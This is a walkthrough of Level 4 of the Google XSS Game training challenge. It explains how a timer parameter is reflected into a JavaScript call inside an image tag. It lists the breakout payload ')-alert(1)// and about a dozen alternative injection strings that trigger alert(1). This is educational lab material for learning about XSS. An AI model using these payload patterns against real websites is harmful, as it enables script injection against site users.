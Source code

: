 <h1>Level 4 - Google XSS Challenge</h1>

![image](https://github.com/user-attachments/assets/f7a468b8-6d48-45e5-9814-9906a1a08bf2)

<h2>Scenario</h2>

Level 4 is an example of Reflected XSS. The malicious user input is sent to the server and processed later on and then inputted into an image tag, allowing us to breakout of a JavaScript function.

1. When a user inputs a number into the timer field and then clicks "Create Timer", that user-inputted number is placed in a timer= parameter and sent to the server. The timer value (which is supposed to be an interger for number of seconds) is then used in the startTimer() function in an image tag. Analyze the next 4 images.

![image](https://github.com/user-attachments/assets/a7070db0-60e9-445f-98f2-7e9650b8491e)

![image](https://github.com/user-attachments/assets/f6e01892-44d3-4f9a-b229-3ea48cecff71)

![image](https://github.com/user-attachments/assets/6d6faade-e76b-4a68-867c-3964e79f5bda)

![image](https://github.com/user-attachments/assets/96057e33-d854-47c2-9b6f-55d204b351f1)

2. Let's check how to Breakout of the startTimer() function in the image tag. I will input "THIS-IS-WHERE-WE-NEED-TO-BREAKOUT" into the timer parameter and then we'll check the page source. By looking at the page source, we will know how to breakout of the startTimer() button. Analyze the next 4 images and notice we can breakout and achieve a JavaScript alert(1) with the following payload: ```')-alert(1)//```

![image](https://github.com/user-attachments/assets/0e7a0462-5713-4bf5-9d44-dea1d7764665)

![image](https://github.com/user-attachments/assets/49840a0d-ba82-4cf9-a884-57bc75522fe1)

![image](https://github.com/user-attachments/assets/afd3c761-a457-4319-aef0-32a1447b62d2)

![image](https://github.com/user-attachments/assets/465953c9-6338-4192-b9a6-59780a53938f)

<h2>Alternative Successful Payloads To Achieve Javascript Execution On Level 4</h2>

```
')**alert(1)//
')*alert(1)//
')%alert(1)//
')|alert(1)//
')||alert(1)//
')%26alert(1)//
')?1:alert(1)//
'),alert(1)//
')(alert(1))//
')/alert(1)//
')%0dalert(1)//
')%0aalert(1)//
')%0d%0aalert(1)//
```
